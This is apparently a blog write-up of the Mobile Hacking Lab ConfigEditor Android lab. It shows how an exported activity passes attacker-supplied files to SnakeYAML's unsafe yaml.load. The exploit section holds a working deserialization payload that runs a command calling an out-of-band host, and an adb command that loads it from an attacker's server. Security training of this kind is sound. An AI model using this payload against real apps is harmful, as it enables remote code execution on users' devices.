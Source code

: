 ```yaml
---
date: '2024-07-30T21:39:58+05:30'
cover:
    image: "images/cover.png" 
    alt: "some image that didn't load"
    caption: "Mobile Hacking Lab - ConfigEditor"
    relative: false
tags: ["Android", "Mobile", "CTF"]
keywords: ["mobile", "android"]
description: "Mobile Hacking Lab - ConfigEditor"
showFullContent: true
readingTime: true
draft: false
title: 'Learning Android Pentesting: Mobile Hacking Lab ConfigEditor'
---
```


Since that past few weeks, I've been going through the free [Android Application Security course by Mobile Hacking Lab](https://www.mobilehackinglab.com/course/free-android-application-security-course). I would recommend this to you if you are looking to get started with Android Application pentesting. They have great labs as well, which are excellent if you are looking to get your hands dirty. This blog is a writeup for one of their free labs - Config Editor.

The goal of the lab is to achieve Remote Code Execution by exploiting vulnerabilities in a third party library.

# Analyzing the Application

First things firt, I decompiled the application with JADX-GUI. Looking at the AndroidManifest.xml file, I notice that the application only has one activity, called the `MainActivity`. This activity is exported and hence can be invoked directly.
![Android Manifest Exported Activity](images/android-manifest.png)

Going through the MainActivity class, I started by looking at the `onCreate` function, as that would be our entry-point to this activity.
![MainActivity onCreate handler](images/oncreate-handler.png)

This function sets up the application UI, event handlers for buttons, and then finally passes control to the `handleIntent` function.
![Call to handleIntent](images/call-to-handleintent.png)

HandleIntent is where the fun begins. This function extracts the data and action from the Intent, which is then passed to the `loadYaml` method.![Data is passed to loadYaml](images/pass-to-loadyaml.png)

The `loadYaml` function reads the file provided through the intent data. The contents of this file are then deserialized using the `yaml.load` function.
![Insecure Yaml Load Sink](images/yaml-load-sink.png)

This is our sink. All YAML functionality in this application is provided via the snakeyaml library, as seen in the imports of the `MainActivity` class.
![Imports SnakeYaml](images/imports-snakeyaml.png)

Also observe that there is a nice gadget provided to us to execute commands:
![gadget](images/gadget.png)

# Executing the Exploit

Host a `exploit.yml` file with the following content via the python HTTP server. Replace the domain name with another payload from interactsh/burp-collaborator or similar.
```yaml
some_var:
  !!com.mobilehackinglab.configeditor.LegacyCommandUtil
  ["ping hfjbgzlukkcfmdxzfkjzd9k17nkd241lt.oast.fun"]
```
Launch the `MainActivity` and pass the action flag with the value `android.intent.action.VIEW` and the data flag with the URL to your file hosted over the python HTTP server.
```bash
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d http://192.168.1.19:8000/exploit.yml
```

Observe that you receive a hit on your HTTP server.
![Hit is received](images/hit.png)

Observe that a hit is also received on interactsh, proving remote code execution.
![interactsh hit](images/interactsh.png)

# Conclusion

This lab teaches us that third-party libraries can introduce vulnerabilities within your applications. It is important to analyze dependencies both from an offensive as well as defensive perspective to keep the end user safe.